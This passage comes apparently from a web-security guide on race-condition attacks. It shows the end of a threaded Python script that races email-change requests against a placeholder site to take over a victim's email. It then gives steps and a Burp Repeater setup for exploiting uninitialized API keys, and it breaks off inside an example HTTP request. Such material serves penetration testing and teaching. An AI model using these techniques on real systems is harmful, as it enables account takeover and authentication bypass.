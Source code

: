        # Target URL
       url = "https://vulnerable-website.com/account/change-email"
       
       # Email addresses
       your_email = "your-email@example.com"
       victim_email = "victim@example.com"
       
       # Create threads for simultaneous requests
       thread1 = threading.Thread(
           target=change_email,
           args=(session, url, your_email, "Thread-1")
       )
       
       thread2 = threading.Thread(
           target=change_email,
           args=(session, url, victim_email, "Thread-2")
       )
       
       # Start threads simultaneously
       thread1.start()
       thread2.start()
       
       # Wait for both threads to complete
       thread1.join()
       thread2.join()
       
       print("Email change requests completed")
       ```

  - **Partial construction race conditions**
    1. **API key initialization exploitation**:
       - Step 1: Identify user account creation or API key generation functionality
       - Step 2: Analyze how API keys are initialized (are they set in a separate step?)
       - Step 3: Prepare account creation or API key generation request
       - Step 4: Prepare API request that uses the API key for authentication
       - Step 5: Send account creation request
       - Step 6: Immediately send API request with an empty API key or predictable uninitialized value
       - Step 7: Check if the API request is accepted despite using an invalid key
       - Example Burp Repeater setup:
         1. Tab 1: Account creation request
         2. Tab 2: API request with empty API key or array parameter
         3. Group tabs and send in parallel
       - Example request sequence:
       ```
       # Request 1: Create new account or generate API key
       POST /account/create HTTP/2
       Host: vulnerable-website.com
       Content-Type: application/json
       